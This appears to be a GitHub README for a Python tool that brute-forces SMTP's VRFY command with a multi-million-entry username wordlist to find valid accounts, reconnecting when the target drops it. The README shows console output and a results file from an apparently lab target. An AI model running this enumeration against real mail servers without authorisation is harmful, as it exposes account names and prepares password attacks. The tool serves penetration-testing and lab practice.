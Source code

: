 # SMTP-VRFY-Bruteforce
Enumerate users using SMTP's VRFY command

If the connection is lost (i.e. the target drops the connection after too many attempts) it will reconnect and continue bruteforcing where it left off.

Generates output file automatically.

```console
# python smtp_vrfy_brute.py 10.129.80.226 xato-net-10-million-usernames.txt

Lines remaining in user list: 8295455
Connecting to: 10.129.80.226
Connection response: 220 debian.localdomain ESMTP Postfix (Debian/GNU)

+ Verified user: michael 
++ Verified users list: michael
23 | VRFY james           

* Connection Lost - Reconnecting *
++ Verified users list: michael

Lines remaining in user list: 8295432
Connecting to: 10.129.80.226
Connection response: 220 debian.localdomain ESMTP Postfix (Debian/GNU)

+ Verified user: mail    
++ Verified users list: michael, mail
46 | VRFY joseph          

* Connection Lost - Reconnecting *
++ Verified users list: michael, mail

Lines remaining in user list: 8295409
Connecting to: 10.129.80.226
...
```


## Output File
```console
# cat smtp-vrfy-bruteforce.out      
Target: 10.129.80.226
Wordlist used: xato-net-10-million-usernames.txt
Target header: 220 debian.localdomain ESMTP Postfix (Debian/GNU)

Verified Users:
michael
mail
```
